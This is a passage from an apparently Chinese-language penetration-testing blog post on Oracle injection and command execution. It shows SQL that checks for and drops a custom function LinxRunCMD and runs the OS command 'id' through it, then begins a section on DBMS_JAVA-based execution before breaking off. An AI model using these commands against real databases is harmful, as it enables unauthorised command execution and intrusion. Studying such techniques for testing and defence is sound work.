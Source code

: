 ```
select OBJECT_ID from all_objects where object_name ='LINXRUNCMD'
```

[![newcontext_object_id_01](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/newcontext_object_id_01.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_object_id_01.png)

[newcontext_object_id_01](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_object_id_01.png)



也可通过查看all_objects内部改变判断

```
select * from all_objects where object_name like '%LINX%' or object_name like '%Linx%'
```

[![newcontext_all_objects_02](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/newcontext_all_objects_02.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_all_objects_02.png)

[newcontext_all_objects_02](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_all_objects_02.png)



若想删除创建的函数，通过以下命令删除

```
drop function LinxRunCMD
```

(4) 执行

```
select LinxRunCMD('id') from dual
```

恭喜！！！

[![newcontext_linxruncmd_01](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/newcontext_linxruncmd_01.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_linxruncmd_01.png)

[newcontext_linxruncmd_01](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_linxruncmd_01.png)



[![newcontext_linxruncmd_02](https://redn3ck.github.io/2018/04/25/Oracle%E6%B3%A8%E5%85%A5-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-Shell%E5%8F%8D%E5%BC%B9/newcontext_linxruncmd_02.png)](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_linxruncmd_02.png)

[newcontext_linxruncmd_02](https://redn3ck.github.io/2018/04/25/Oracle注入-命令执行-Shell反弹/newcontext_linxruncmd_02.png)



#### 3、DBMS_JAVA.RUNJAVA/DBMS_JAVA_TEST.FUNCALL()

**使用java privileges**

